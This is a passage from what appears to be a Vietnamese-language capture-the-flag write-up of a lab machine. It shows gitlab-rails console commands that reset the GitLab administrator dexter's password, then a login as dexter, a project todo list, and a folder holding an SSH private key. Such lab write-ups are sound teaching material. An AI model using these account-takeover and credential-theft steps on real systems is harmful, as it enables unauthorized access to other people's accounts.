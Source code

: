 ![13](https://coldfusionx.github.io/assets/img/Posts/Laboratory/adm.png)

Giờ đây, chúng tôi có thể thấy biểu tượng quản trị viên trên tài khoản của mình, do đó chúng tôi hiện có thể truy cập Dự án `SecureDocker` của Dexter

## Đặt lại mật khẩu - Dexter
Tác giả thấy Dexter là quản trị viên duy nhất, vì vậy tác giả thậm chí có thể đặt lại mật khẩu của anh ấy

```powershell
git@git:/$ gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)

irb(main):001:0> user = User.where(id: 1).first
=> #<User id:1 @dexter>
irb(main):002:0> user.password = 'cold_fusion'
=> "cold_fusion"
irb(main):003:0> user.password_confirmation = 'cold_fusion'
=> "cold_fusion"
irb(main):004:0> user.save!
Enqueued ActionMailer::DeliveryJob (Job ID: f4543159-759e-4879-885e-8688d65ec401) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007fa1b4dcbda8 @uri=#<URI::GID gid://gitlab/User/1>>
=> true
irb(main):005:0> exit()
```

## SSH - Dexter

Bây giờ chúng ta có thể đăng nhập vào GitLab với tư cách là dexter, nơi chúng ta thấy một Project `SecureDocker` khác:

![14](https://coldfusionx.github.io/assets/img/Posts/Laboratory/dexter.png)

Bên trong dự án, điều đầu tiên chúng tôi tìm thấy là một todo.txt có vẻ là một loại danh sách nhiệm vụ đang chờ xử lý:

```shell
# DONE: Secure docker for regular users
### DONE: Automate docker security on startup
# TODO: Look into "docker compose"
# TODO: Permanently ban DeeDee from lab
```

Thoạt nhìn, nó không có nhiều ý nghĩa nên chúng ta sẽ xem xét sau

Nhưng điều thú vị hơn là trình dexter thư mục chứa thư mục `.ssh` với khóa ssh riêng
